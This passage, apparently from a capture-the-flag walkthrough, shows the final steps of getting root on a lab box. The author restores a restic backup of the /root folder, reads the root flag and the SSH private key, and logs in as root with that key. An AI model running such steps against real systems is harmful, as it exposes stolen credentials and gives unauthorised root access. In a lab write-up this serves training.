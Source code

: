 Now we can restore that snapshot that will mimic the /root folder:

```
restic -r /tmp/restic-data/myrepo restore 7603045e --target /tmp/restic-data/restore
```

And we can access the restored root folder in out kali:

```
cd /tmp/restic-data/restore/root
```

Retrieve root flag and private key:

```
cat root.txt
cat ./ssh/id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@$ip
```